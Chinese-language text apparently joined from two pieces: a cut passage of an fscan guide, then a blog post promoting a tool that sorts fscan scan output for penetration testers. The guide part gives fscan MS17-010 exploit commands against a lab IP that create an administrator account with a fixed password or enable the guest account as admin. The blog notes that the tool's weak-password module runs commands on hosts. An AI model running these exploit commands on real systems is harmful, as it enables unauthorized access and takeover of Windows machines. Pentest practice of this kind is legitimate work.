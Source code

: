 注：若命令有变只需要将变化后执行的命令进行base64编码后，对上述编码后执行的命令中的base64编码进行替换即可。

### MS17-010模块利用

添加用户：

```
.\fscan64.exe -h 192.168.88.141 -m ms17010 -sc add
```

执行此命令后会生成一个用户，用户名：sysadmin 密码：1qaz@WSX!@#4

启用guest用户，并把guest用户添加到管理员组

```
.\fscan64.exe -h 192.168.88.141 -m ms17010 -sc guest
#启用后用户是guest 密码：1qaz@WSX!@#4
```



# 用于处理fscan输出结果的小工具

原创 白帽学子 

[白帽学子](javascript:void(0);)

 *2024年12月22日 08:11* *广东*

今天们聊聊最近在工作中用到的一个小工具。前阵子，我们进行了一次大规模的资产扫描，以便找出潜在的漏洞。使用的是fscan这个强大的扫描工具，结果输出了大量的信息。这时候就不得不面对一个问题：如何高效地处理这些海量的扫描结果？传统的方法打开文件逐行查找，真的让我感到疲惫。

我发现了一个轻量级的小工具，专门用于处理fscan的输出结果，尤其适合那些面对大量资产的情况。这个工具的设计思路很简单，但功能却相当实用。它支持最新版本的fscan（1.8.4）以及FscanPlus，可以让你的输出优化快人一步！

![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/LYy9xnADcdjtX2tWtdITnYKHYbuMaPxjic8voyrOgiaIj8VvWIP7tiaBd5PlFoyuI4LicXTF76HibHaBxBrudBiaCYxA/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

具体来说，它可以根据不同的内容类型将扫描结果分类，比如NetInfo会显示基于网卡数量的信息，对于多网卡机器的渗透尤其有帮助。而Windows部分则直观地展示了Windows机器的信息，这个对我们分析环境漏洞特别好。Web和BugList的部分更是直接聚焦在Web相关信息和潜在漏洞上，让我在进行风险评估时变得更加轻松。

![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/LYy9xnADcdjtX2tWtdITnYKHYbuMaPxjkQKO29VkjBjNAzQvRXoQAJ84icrwXwWWt6glEibNhhEJESur8Pn7HpTg/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

最惊艳的是WeakPass模块，它不仅能够显示弱口令信息，还能直接连接并执行命令，甚至自动截图留存证据。这对我们在做渗透测试时，简直是个福音，不再需要切换到其他工具来完成这些操作，省去了不少时间精力。

把这些结果导出成文档也很方便，适合后续的报告和分析。在经历了这段时间的使用后，我真心觉得这个工具在我们的日常工作中大有裨益，能够有效提升效率，降低失误率。

想要获取工具的小伙伴可以直接**拉至文章末尾**

我们来提取并讨论上述工具描述中涉及的网络安全关键技术点：

1、资产扫描：

- - 资产扫描是网络安全管理中的基础工作之一。在进行护网、重保等活动时，了解网络中存在的设备及其安全状态至关重要。fscan作为一个高效的资产扫描工具，它能够快速识别网络中的活跃主机和服务，为后续的漏洞评估和渗透测试提供数据支持。



2、输出结果优化：

- - 面对海量的扫描结果，如何快速筛选出有用信息是关键。该工具通过分类整理不同类型的数据（如NetInfo、Windows、Web等），使得用户能更快地找到所需要的信息，而不是在冗长的文本文件中逐行查找。这种优化不仅提高了工作效率，也减少了人为错误的可能性。
